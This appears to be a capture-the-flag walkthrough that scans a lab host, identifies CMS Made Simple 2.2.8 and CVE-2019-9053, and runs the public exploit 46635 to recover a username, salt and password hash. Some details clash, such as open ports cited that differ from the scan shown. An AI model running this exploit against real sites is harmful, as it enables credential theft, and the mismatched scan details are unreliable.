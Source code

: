 ### Port 80 (HTTP)
- **Server Header:** Apache/2.4.18 (Ubuntu)  
- **Title:** Apache2 Ubuntu Default Page: It works  
- **robots.txt:**  
  - Disallowed entries: `/openemr-5_0_1_3`  

### Port 2222 (SSH)
- **Host Key:**  
  - RSA: `29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23`  
  - ECDSA: `9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c`  
  - ED25519: `12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6`  

---

**Nmap Scan Completed:** Wed Feb 19 22:12:33 2025  
**Time Elapsed:** 66.37 seconds  
**Scanned Hosts:** 1 IP address  
**Incorrect Results:** [Report Here](https://nmap.org/submit/)  

<br><br>

## 2. Identify open ports up to 1000  
Determine how many ports are open up to port 1000: 2 (21, 80).

<br><br>

## 3. Find the CMS version  
Analyze the HTML source code at `http://10.10.10.10/simple/` to identify the CMS version:  
**CMS Made Simple v2.2.8**  

<br><br>

## 4. Identify the CVE  
Find the associated vulnerability: **CVE-2019-9053**  

<br><br>

## 5. Exploit the vulnerability  

- Copy the exploit script to the CTF directory.  
- Edit the script to remove the `termcolor` function.  
- Use the Python exploit from **searchsploit 46635**:  
<br>

Command:
```
python2 46635.py -u http://10.10.10.10/simple/
```
<br>

Result:
```
[+] Salt for password found: 1dac0d92e9fa6bb2   
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
